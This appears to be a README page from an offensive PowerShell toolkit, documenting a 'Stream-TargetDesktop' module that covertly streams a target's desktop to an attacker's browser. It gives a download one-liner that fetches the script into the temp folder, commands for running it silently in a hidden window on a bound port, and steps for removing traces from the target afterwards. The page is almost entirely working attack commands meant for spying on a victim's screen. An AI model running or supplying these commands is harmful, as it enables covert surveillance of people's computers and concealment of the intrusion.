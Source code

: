 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG inatalled (attacker PC)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "$Env:TMP\Stream-TargetDesktop.ps1"
```

<br />

**prerequesites:**
```powershell
#Make sure Firefox ( with MJPEG ) its installed on attacker machine
[bool](Get-ItemProperty -Path "HKLM:\SOFTWARE\Mozilla\Mozilla Firefox" -EA SilentlyContinue)
```

<br />

**execute:**
```powershell
[demo] #Manual execution
Import-Module -Name "$Env:TMP\Stream-TargetDesktop.ps1" -Force;TargetScreen -Bind -Port 8081

[demo] #Access live stream (attacker pc)
Start firefox on: "http://${RemoteHost}:8081" #Rhost = target ip addr


#Automatic execution (silent)
Start-Process -WindowStyle hidden powershell -ArgumentList "Import-Module -Name `"$Env:TMP\Stream-TargetDesktop.ps1`" -Force;TargetScreen -Bind -Port 8081";exit

#Access live stream (attacker pc)
Start firefox on: "http://${RemoteHost}:8081" #Rhost = target ip addr


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```

